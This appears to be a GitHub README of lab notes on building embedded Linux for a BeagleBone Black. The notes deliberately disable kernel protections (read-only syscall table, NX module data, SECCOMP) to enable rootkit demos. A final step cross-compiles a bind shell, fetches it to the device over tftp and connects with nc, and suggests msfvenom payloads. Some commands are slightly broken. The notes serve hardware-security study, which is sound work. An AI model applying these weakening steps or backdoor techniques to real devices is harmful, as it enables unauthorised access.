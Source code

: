 ![Plan of action Slide](https://github.com/kymb0/IoT/raw/main/note_dir/images/steps.png)  

Before running through steps: run [packages.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/packages.sh) > set paths and alias for build (example in [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh))  

<h2>Step 1 - Build our toolchain (what is a [toolchain?](https://github.com/kymb0/IoT/blob/main/note_dir/Toolchain.md))</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf crosstool-ng-1.23.0.tar.xz
cd crosstool-ng-1.23.0
./configure --prefix=$BASE_INSTALL_DIR/Step-1/customtoolchain
make
make install
cd ..
cp config_file .config
ct-ng build
```  

To do this we must configure crosstool-ng, and then compile it.  
We configure with `ct-ng menuconfig` (An example config is [here](https://github.com/kymb0/IoT/blob/main/note_dir/ct-ng-config))  
most options in config are self explainatory, the only one that was not (for me) was C library. By defukat this was set to gLibc, we want uClibc - this is because uClibc is more of a "smaller and barebones library"

The actual commands to do the above are as follows, as we can see all we are doing is unpacking the offline install directory as well as changing the base install directory from `/` to `/Step-1/customtoolchain`, build crosstool-ng with `make`, install with `make install`, and then build our custome toolchain using the installed and configured crosstool-ng.  
Once built, we can see our binaries in the specified /bin/ directory - this important for later on.

</details>  

<h2>Step 2 - Configure and compile u-boot</h2>
<details>
  <summary></summary>  

Commands for this step:  
```
tar xf u-boot-2018.01.tar.bz2`  
cd u-boot-2018.01
cp ../u-boot-2018.01 .config
arm-make
```
Explaination of above:  
  
So first, we decompress u-boot.tar, and move into it, as this contains the files we need to configure and compile.  
Then we copy the config file across - Why do we need a config file?  
As we are compiling u-boot for a specific device (beagleboneblack), we will need to feed u-boot many device specific details, as u-boot will be responsible for initializing many devices.  
To locate which config to use we look inside `configs/` - which contains configs files for different processors, boards, etc. These configs tell u-boot which support needs to be compiled in aswell as env settings.  
How do we create the config file?  
For the BBB, we can find our particular configs with `ls config/am335x_*`  
this will list all relevant files - luckily for us the SoC/board manufacturer will stipulate which configs are to be used, we can gleam this from their website. In this case Texas Instruments site tells us to use `am335x_evm_defconfig` in order to boot beagleboneblack.  

It is important to note that u-boot will also look will look at the corresponding .dts file with the same naming convention as the config file specified by manufacturer, so, `am335x_evm.dts`  
This file works off a template for the entire am335 family, and inturn THAT template works off a skeleton template.  
(the dts contains large amounts of info regarding different devices, power profiles, memory locations, etc)

Now, compilation process - note `arm make` is an alias for `'ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make'` as set by the [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh) file. Essentially it sets the architecture to arm and sets the crosscompilation toolchain to the binary installed by our custom toolchain in step 1.  
`arm-make distclean` - clean out settings  
`arm-make am335x_evm_defconfig` - using the alias, this will create a config file for us to use (we can inspect and modify via `arm-make menuconfig`)   What would we want to modify? possibly the CLI, shellprompt, boot-delay, etc. We can also include support for additional commands, filesystem support, etc.

finally after creating our config file, we run `arm-make`, after 5 or so minutes we will see our `MLO` file, aswell as u-boot.img, etc.  
</details>  

<h2>Step 3 - Compiling Kernel and Device Tree Binary</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf linux-4.15.7.tar.xz
cd linux-4.15.7
cp ../linux-4.15.7-config .config
ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make -j $(nproc) zImage dtbs modules OR arm-make -j $(nproc) zImage dtbs modules
```
Explaination of above:  
extract the linux kernel (may take some time: one of, if not THE largest repo in the world)  
move into the directory (root of kernel sources)  
we need a config to make sure we compile a kernel capable of running on the beagleboneblack  

Our base defconfig file will be `arch/arm/configs/multi_v7_defconfig` as this contains support for many, many SoC's (obviously including )  
arm-make multi_v7_defconfig to make our base config  
now we customise with `arm-make menuconfig`  
something we may like to change is the kernel .config support option (a M indicates the complete `.config` file will be compiled as an external MODULE, whereas a `*` means the `.config` means it will be built in to the kernel, we want the support built in, so we select `*`)

We would also like KPROBES enabled, as this will allow us to figure many things out in the kernel at runtime - necessary for rootkits and such

[*Note*] As this kernel will be for IoT/embedded devices, as such we will be INTENTIONALLY select options to make the kernel weaker for the purpose of demonstrating rootkits. (in saying this, many IoT devices, even modern ones actualy SHIP with these settings off)  

First we UNSELECT `make kernel text and rodata read-only`, this allows us to play with the syscall table.  
We also UNSELECT `Set loadable kernel module data as NX and text as RO` 

Last we turn `SECCOMP` off in order to enable the full use of certain syscalls, in addition to turning ON `NETFILTER` which is the framework which is used to run iptables, create custom firewalls, packet routing etc. (generally on by default in anycase)  

(We can reduce size of zImage file after compilation by compiling this kernel for ONLY the am335x SoC. wWe do this at menuconfig stage by selecting in systemtypes: TI OMAP/AM family and only select am335x)

Now with these settings done, we compile the kernel (again with our alias):  
`arm-make -j $(nproc) zImage modules dtbs` nproc is number of cpus, we want to also compile in the zImage, modules we selected, aswell as device tree binary.

After this is completed, we can view the zImage files with `ls arch/arm/boot -lh`, `ls arch/arm/boot/dts/am335x-bone*` and so forth.  
</details> 

<h2>Step 4 - Create Root Filesystem</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf buildroot-2017.11.2.tar.gz
cd buildroot-2017.11.2
cp ../buildroot-2017.11.2-config .config
mkdir dl 
cp ../dl/* dl/
make clean
make
```
We will start by unzipping buildroot and moving into it.
Just as there were beaglebone specific config files in the kernel, we have the same situation with buildroot. We generate our config with
`arm-make configs/beaglebone_defconfig`.
Again, `arm-make menuconfig` to modify some settings: Very importantly we do not want buildroot to download and use it's own toolchain - we must change Toolchain type from the default to `external toolchain` and Toolchain from `Linaro` to `Custom toolchain`.
Toolchain prefix must be `arm-unknown-linux-uclibcgnueabihf` - this will tell buildroot how to search for our toolchain binaries. Make sure our gcc version lines up with what he have, in addition to linux kernel version we compiled.   Then we turn on wchar, local, rpc support.  
Lastly we go up one level in settings, and make sure we uncheck Kernel and bootloader as we have built our own. Now in filesystem we select tar filesystem and compression method `xz`.  
Buildroot is now configured to build out the filesystem for the beaglobone black.  
As the packages required are already downloaded, we copy them into the buildroot dl folder.  
Finally we `make` and wait a while, there may be some errors at the end however these can be ignored  
We can see our rootfs tar file in the `output/images/` dir of buildroot as well as a `uEnv.txt` file we could use if we wanted.  
</details>  

<h2>Step 5 - Preparing SD card and booting!</h2>
<details>
  <summary></summary>  

Step 5 - Bringing it all together

Now we have our: 
BOOT partition: `MLO`, `u-boot.img`, and `uEnv.txt` (created Step 2)  
KERNEL partition: `zImage` (linux kernel) and `XX.dtb` (Device Tree) (Created Step 3)  
ROOTFS Partition: `busybox`, `Sytem Utilities`, `Kernel Modules`, and `Custom Programs` (created Step 4)  

  <details>
  <summary>SD Partitioning</summary>  
    
  ![sdPartitioning](https://github.com/kymb0/IoT/raw/main/note_dir/images/sd_part.png)  
    
  </details>
  
We can achieve our partitioning with a number of tools, an wasy way is via `gparted`, typically we want `fat32 100mb` for BOOT, `ext4 1000mb`, kernel , and the rest for rootfs.

Now if we open the pre-configured eEnvtxt file, and in bootargs we CHANGE the rootfs from partition2 to partition3.

Next copy the files we need from each step with the below script/commands:
```
2/u-boot-2018.01/MLO MLO/
cp ../Step-2/u-boot-2018.01/u-boot.img u-boot/
cp ../Step-3/linux-4.15.7/arch/arm/boot/zImage kernel/
cp ../Step-3/linux-4.15.7/arch/arm/boot/dts/am335x-boneblack.dtb dtb/
cp ../Step-4/buildroot-2017.11.2/output/images/rootfs.tar.xz filesystem/ 
cp MLO/MLO /media/iot/BOOT
cp u-boot/u-boot.img /media/iot/BOOT
cp uEnv.txt /media/iot/BOOT
sudo cp kernel/zImage /media/iot/kernel
sudo cp dtb/am335x-boneblack.dtb /media/iot/BOOT
sudo tar -C /media/dev/Linux -xvJf /home/dev/testing_dir/embedded-linux/Step-5/filesystem/rootfs.tar.xz
```
Now... plug that bad boy in and power it up! *If you are connected via UART cable you will be able to monitor the boot process.
</details>

<h2>Step 6 - Basic backdoor example</h2>
<details>
  <summary></summary>  

In this exercise we assume 2 things:  
First, our beaglebone is connected via ethernet to a bridged port to our laptop, and we are monitoring our beaglebone via UART cable.  

For this exersize we can use any of [bindshell](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/bindshell.c), [hello](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello_world.c), or [hello in ARM assembly](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello.s) to demonstrate code execution. The below section will assume bindshell.c because shells r fun. (this particular program is your standard c program however you could also utilise a c-wrapper for assembly, aka spin up msfvenom and drop it in)

We can use our cross compilation tools directly `arm-unknown-linux-uclibcgnueabihf-gcc bindshell.c -o bindshell`  
running `file` against our output binary will confirm the cross-compilation.  
The next step is to `sudo cp /var/lib/tftpboot/` and then collect from our VM `tftp -g -r bindshell 192.x.x.x`, make executable `chmod +X bindshell`  
Now we run and viola, we can `nc` into a session. This is obviously a very basic example, however these notes set the foundation for some of the cooler stuff down the road.  
</details>
